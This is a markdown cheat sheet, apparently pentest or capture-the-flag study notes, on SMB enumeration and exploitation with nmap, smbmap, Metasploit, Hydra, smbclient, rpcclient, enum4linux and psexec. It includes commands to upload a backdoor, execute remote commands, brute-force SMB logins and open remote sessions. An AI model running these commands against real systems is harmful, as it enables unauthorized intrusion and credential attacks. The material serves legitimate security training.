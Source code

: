 # Nmap

- `nmap -sU --top-ports 25` : port 137, 138 are udp smb ports. check if open.

## Nmap enum scripts

- `nmap -sU --top-ports 25 <ip>`

  ![SMB UDP ports](./images/nmap-01.png)

- smb-protocols : list supported protocols
	- if v1 is enabled - EternalBlue exploit?
- smb-security-mode : guest account enabled?
- smb-os-discovery.nse : NetBIOS computer name and OS
- smb-enum-sessions : enum logged in users
- smb-enum-sessions --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-users.nse : list all users that exist on samba version

  ![smb-enum-users.nse output](./images/nmap-02-enumusers.png)

- smb-enum-shares : enum shares as guest
- smb-enum-shares,smb-ls --script-args smbusername=<user>,smbpassword=<pass> : Enumerating all the shared folders and drives then running the ls command on all the shared folders.
- smb-enum-shares --script-args smbusername=<user>,smbpassword=<pass>
	- if IPC$ share had RW perms - lets anon users enum shares, accounts etc
- smb-enum-users --script-args smbusername=<user>,smbpassword=<pass>: enum user acc on target sys
- smb-server-stats --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-domains --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-groups --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-services --script-args smbusername=<user>,smbpassword=<pass>

# SMBMAP

- Allows users to enumerate samba share
- Allows file upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- `smbmap -H <ip> -u guest -p "" -d <domain>` 

  ![smbmap output](./images/smbmap-01.png)

- `smbmap -H <ip> -u guest -p "" -d .`
- `smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'` : execute command on remote host
- `smbmap -H <ip> -u <user> -p <pass> -L` : list all drives (C: or D:)

  ![smbmap list drives output](./images/smbmap-02.png)  ￼ 

- `smbmap -H <ip> -u <user> -p <pass> -r 'C$'` : list contents of C:\

  ![smbmap list contents of drive](./images/smbmap-03.png) 

- `smbmap -H <ip> -u <user> -p <pass> --upload '/root/backdoor' 'C$\backdoor'`
  
  ![smbmap upload backdoor output](./images/smbmap-04.png) 

- `smbmap -H <ip> -u <user> -p <pass> --download 'C$\flag.txt'`

  ![smbmap download flag output](./images/smbmap-05.png) 

# Metasploit Modules

- auxiliary/scanner/smb/smb_version - exact version of smb
- auxiliary/scanner/smb/smb2 - smb2 protocol supported?
- auxiliary/scanner/smb/smb_enumusers
- auxiliary/scanner/smb/smb_enumshares
- auxiliary/scanner/smb/pipe_auditor : determine what named pipes are accessible over SMB  (req creds)
- auxiliary/scanner/smb/smb_login
- auxiliary/scanner/smb/smb_ms17_010 - eternalblue vuln tester
- exploit/windows/smb/psexec

# Hydra

- `hydra -l <user> -P <pass_wordlist> 192.212.251.3 smb`
	
# Nmblookup

- `nmblookup -A <ip>`

	![nmblookup output](./images/nmblookup-01.png) 
	￼

# SMBclient

- `smbclient -L <ip> -N` : list sharenames and domains with no pass with anonymous connection.
- `smbclient -L <ip> -U <user>` : authenticate as a user with legit creds
- `smbclient //<ip>/public -N`
- `smbclient //<ip>/public -U <user>` 
	- smb> ls
	- smb> get flag

# RPCclient

- `rpcclient -U "" -N <ip>` : check anonymous login allowed - if no errors
- rpcclient $>
	- srvinfo : os version of samba server
	- enumdomgroups : enum domain groups
	- enumdomusers : enum domain users
	- lookupnames admin : get SID of user "admin"

# Enum4linux

- `enum4linux -o <ip>` : get os version
- `wnum4linux -a [ip]` : looks up everything
- `enum4linux -U <ip>` : enum users (use -u <user> -p <pass> for auth enum)
- `enum4linux -S <ip>` : enum shares
- `enum4linux -G <ip>` : enum domain groups
- `enum4linux -i <ip>` : get printer info'

	![enum4linux printer output](./images/enum4linux-01.png) 
	
- `enum4linux -r -u "admin" -p "password" <ip>` : enum users via RID cycling. S-1-22-1-1003 etc.

# PSExec (Authenticated)

- cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
- chmod +x psexec.py
- python3 psexec.py Administrator@ip
- this will provide remote session

# References

1. Samba (https://www.samba.org/)
2. smbclient (https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
3. rpcclient (https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
4. nmblookup (https://www.samba.org/samba/docs/current/man-html/nmblookup.1.html)
5. enum4Linux (https://tools.kali.org/information-gathering/enum4linux)
6. THC Hydra (https://tools.kali.org/password-attacks/hydra)
7. smbmap (https://tools.kali.org/information-gathering/smbmap)
8. Metasploit Module: SMB Session Pipe Auditor (https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor)
